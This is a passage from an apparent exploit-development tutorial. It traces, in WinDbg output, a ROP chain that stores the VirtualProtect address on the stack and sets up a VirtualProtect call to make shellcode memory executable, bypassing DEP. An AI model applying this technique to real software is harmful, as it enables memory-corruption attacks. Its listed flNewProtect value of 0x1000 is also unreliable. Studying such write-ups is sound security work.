 Now comes the problematic instruction:

```text
62501e32 890424          mov     dword ptr [esp],eax
```

Let's verify that the stack value to be overwritten is the placeholder value that was included in the chain for this specific purpose:

```text
0:003> dd esp L1
00e9fa18  42424242
```

Finally, the make-or-break instruction:

```text
62501e35 ffd5            call    ebp
```

Stepping into the call and examining the stack reveals:

```text
0:003> dd esp L3
00e9fa14  62501e37 77db5c80 62501d08
```

The first address aka `0x62501e37` is the return address in which the `call ebp` instruction pushed onto the stack. Following that `0x77db5c80` is the address of the `VirtualProtect` stub which made it onto the stack due to the `mov  [esp+0x00], eax` instruction. Finally `0x62501d08` is the next gadget in our chain that we would like to reach.

As we step through the `pop/pop/ret` instructions, the stack realigns perfectly:

```text
625012f6 5f   pop edi  -> pops 0x62501e37 into EDI
625012f7 5d   pop ebp  -> pops 0x77db5c80 into EBP
625012f8 c3   ret      -> returns to 0x62501d08
```

In conclusion, we've successfully repurposed a gadget that, under most other circumstances, would have been unsuitable. It now effectively achieves the targeted action of dereferencing a pointer into a register.

### Overriding the first placeholder

After successfully obtaining the runtime address of the `VirtualProtect` stub, the next objective is to weave this into the 'skeleton' that will invoke the `VirtualProtect` call. 

Here's a quick refresher on how the 'skeleton' is structured:

```text
- VirtualProtect Address
- Return Address // start of shellcode address
- lpAddress // start of shellcode (same as above)
- dwSize // 0x01
- flNewProtect // 0x1000
- lpflOldProtect // any valid arbitrary pointer
```
